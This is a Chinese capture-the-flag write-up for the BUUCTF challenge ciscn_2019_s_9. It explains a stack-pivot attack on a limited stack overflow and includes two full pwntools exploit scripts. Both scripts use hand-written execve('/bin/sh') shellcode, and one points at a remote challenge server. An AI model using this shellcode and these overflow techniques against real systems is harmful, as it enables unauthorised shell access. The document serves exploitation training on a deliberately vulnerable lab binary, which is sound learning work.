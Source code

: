 # wekk4
## BUUCTF-ciscn_2019_s_9
有限的栈溢出

<img width="343" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/8abd6390-b5ca-4c08-94e4-1caea32111cc">

程序有读写执行段（栈也是）

<img width="678" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/15ae9e31-3339-49d4-864d-4f112964fb69">

考虑使用栈迁移将栈迁到bss段上 然后去执行shellcode 但无法之间向bss段中写入shellocode

可以利用fgets函数 可以看到fgets函数写入的地址是由ebp传递的（值为ebp-0x20）而我们在函数pwn返回时可以控制ebp的值

那么溢出覆盖返回地址跳回到fgets@main 此时fgets的参数是我们覆盖的ebp 实现往bss段中写入shellcode

再次执行到pwn函数的返回 进行第二次leave ret时便会将栈迁移到bss中 最终通过ret执行shellcode

### exp_ciscn_2019_s_9.py
```python
from pwn import *
# p = process("./ciscn_s_9")
p = remote("node4.buuoj.cn",27926)
context.log_level = 'debug'
# context.arch = 'amd64'
# context(os="linux", arch="amd64",log_level = "debug")

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

fgets_main = 0x08048512
bss = 0x804b000-0x500
hint = 0x8048551

sc = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

payload = b'A' * 32
payload += p32(bss) + p32(fgets_main)

ru(">\n")

sl(payload)

payload = sc.ljust(36, b'\x90') + p32(bss-0x20)
raw_input("Ther")
sl(payload)

shell()
```

但由于栈其实也是读写执行的段 所以可以不用那么麻烦 将shellcode布置在栈上 然后通过hint中的jmp esp 再配合"sub esp, 0x28; call esp"

去执行shellcode
```python
from pwn import *
p = process('./ciscn_s_9')
# p = remote('node4.buuoj.cn',27898)
context(os = 'linux',arch = 'i386',log_level = 'debug')

shellcode_s ='''
xor eax,eax
xor edx,edx
push edx
push 0x68732f2f
push 0x6e69622f 
mov ebx,esp
xor ecx,ecx
mov al,0xB
int 0x80
'''

shellcode_s = asm(shellcode_s)

payload =shellcode_s.ljust(0x24,b'a') + p32(0x08048554) + asm("sub esp,0x28;call esp")
raw_input("Ther")

p.sendlineafter(b">\n",payload)

p.interactive()
```

